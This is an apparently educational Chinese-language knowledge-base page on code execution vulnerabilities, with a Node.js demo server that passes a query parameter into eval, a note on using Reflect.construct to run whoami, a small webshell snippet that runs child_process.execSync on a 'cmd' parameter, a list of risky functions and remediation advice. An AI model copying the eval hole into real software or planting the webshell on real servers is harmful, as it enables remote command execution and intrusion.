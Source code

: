 ## 简介

代码执行漏洞是指攻击者通过在应用程序中注入恶意代码并成功执行，从而获取系统权限或者窃取敏感信息的一种攻击方式。这种漏洞通常发生在 Web 应用程序中，攻击者可以通过输入恶意代码或者通过上传恶意文件等方式来实现代码执行。攻击者可以利用这种漏洞来执行任意代码，包括命令执行、文件读写、数据库操作等，从而控制整个系统。

## 利用方式

1. 输入恶意代码：攻击者通过输入恶意代码来执行攻击。例如，在一个搜索框中输入一段代码，如果应用程序没有对输入数据进行过滤和验证，就会直接执行这段代码。

2. 上传恶意文件：攻击者通过上传恶意文件来执行攻击。例如，上传一个包含恶意代码的图片文件，如果应用程序没有对上传文件进行检查和过滤，就会将该文件保存到服务器上并执行其中的恶意代码。

执行相关编程语言的任意代码，所以危害取决于可以执行代码的程度。常见的比较严重的攻击有如 **执行系统命令**、**读写文件**、**拒绝服务** 等

## 漏洞复现

在[代码执行demo](/知识库/01.WEB安全/99.其他/04.JavaScript 原型链污染#Demo)中，该部分由node.js编写，其中更是使用eval进行解析字符串以达到代码执行的目的

```javascript
const express = require('express')
const app = new express()

const obj = {
    getMsg: 'hello world',
    getList: getReadMsg()
}

function getReadMsg(){
    return 'test'
}

Object.freeze(obj)

app.get('/', (req, res) => {
    const resp = eval('obj.' + req.query.test)
    res.send(resp)
})

app.listen( 8081,()=>{
    console.log('running on 8081 port!')
})
```



Reflect是JavaScript的一个内置对象，Reflect.construct() 方法的行为有点像 new 操作符 构造函数 ， 相当于运行 new target(...args)
语法如下：

```javascript
Reflect.construct(target, argumentsList[, newTarget])
```


target为Function，argunmentList则为需要传入的方法，再此处就将结果返回回来，在这里就可以看见我们执行了whoami并回显回来了

![image.png](README.assets/2023_05_19_10_43_56_rit8HjEY.png)

在未使用return 返回结果的时候，使用该方式发现又可以代码执行，那么再启动一个端口，用于执行命令，就达到了webshell的功能
这里我图方便没有使用nodejs的http模块启动，而是使用express模块执行（需要下载express库)
代码

```javascript
const express_1 = require('express')
const app_1 = new express_1()
app_1.get('/', (req_1, res_1)=>{
    res_1.header('Content-Type','text/html')
    res_1.send(require('child_process').execSync(req_1.query.cmd))
})
app_1.listen('8888')
```



![image.png](README.assets/2023_05_19_10_43_57_PTZrs1dy.png)

![image-20230625173600772](README.assets/image-20230625173600772-7685762.png)

![image.png](README.assets/2023_05_19_10_43_57_6TvOdEgh.png)

## 相关函数

列举常见编程语言中可能造成代码执行风险的函数，不保证全，仅当参考。

| 编程语言   | 风险函数                                                     |
| :--------- | :----------------------------------------------------------- |
| Python     | `eval()`, `exec()`, `compile()`                              |
| PHP        | `eval()`, `create_function()`, `assert()`                    |
| Java       | `javax.script.ScriptEngine.eval()`,`OGNL表达式`,`SPEL表达式` |
| JavaScript | `eval()`                                                     |

## 修复建议

1. 输入验证和过滤
   1. 对于用户输入的数据，始终进行有效的验证和过滤，确保只接受预期的输入。
   2. 使用白名单验证，只允许特定的字符或格式通过验证，拒绝一切非法或不受信任的输入。
2. 避免动态执行代码
   1. 避免直接使用函数（如 `eval()`、`exec()`、`System.exec()` 等）执行动态生成的代码。
   2. 尽量使用更安全的替代方案，如解析器、解释器或特定的API。

